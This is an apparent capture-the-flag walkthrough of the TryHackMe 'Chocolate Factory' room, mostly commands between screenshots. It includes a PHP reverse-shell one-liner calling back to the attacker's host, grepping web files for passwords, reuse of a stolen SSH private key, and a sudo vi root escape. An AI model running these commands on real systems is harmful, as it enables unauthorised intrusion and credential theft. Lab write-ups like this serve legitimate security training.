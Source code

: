 # Chocolate Factory

**Room Link:** [https://tryhackme.com/room/chocolatefactory](https://tryhackme.com/room/chocolatefactory)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (3) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (22) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (29) (1) (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (23) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (6) (1) (4).png" alt=""><figcaption></figcaption></figure>

### TCP/21 - FTP

**Kali**

```
ftp $VICTIM
Username: anonymous
>binary
>passive
>mget *
```

<figure><img src="../../.gitbook/assets/image (30) (3).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (25) (2).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can run commands here and we see the key\_rev\_key file

![](<../../.gitbook/assets/image (2) (8).png>)



We go there by the url and we can download it

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (4) (3).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
strings key_rev_key
```

<figure><img src="../../.gitbook/assets/image (24) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





### Web Shell

**Web**

```
php -r '$sock=fsockopen("$KALI",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

<figure><img src="../../.gitbook/assets/image (3) (1) (2).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvp 4444
```

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

<figure><img src="../../.gitbook/assets/image (27) (1) (2).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd /var/www/html/
grep password *
```

<figure><img src="../../.gitbook/assets/image (1) (1) (2) (3).png" alt=""><figcaption></figcaption></figure>

### Shell

I was not able to su into charlie with the password, the credentials did work for the web login but it just brought me to the command page.

**Victim**

```
cd /home/charlie/
cat teleport
```

I copied the teleport private key to kali

**Kali**

```
subl teleport 
chmod 700 teleport
ssh -i teleport charlie@$VICTIM  
```

<figure><img src="../../.gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

**Exploit Link:** [https://gtfobins.github.io/gtfobins/vi/](https://gtfobins.github.io/gtfobins/vi/)

Charlie can run vi with no passwd so I just followed the link above to become root

**Victim**

```
sudo -l
sudo vi -c ':!/bin/sh' /dev/null
```

<figure><img src="../../.gitbook/assets/image (5) (3).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (4) (8).png" alt=""><figcaption></figcaption></figure>



























































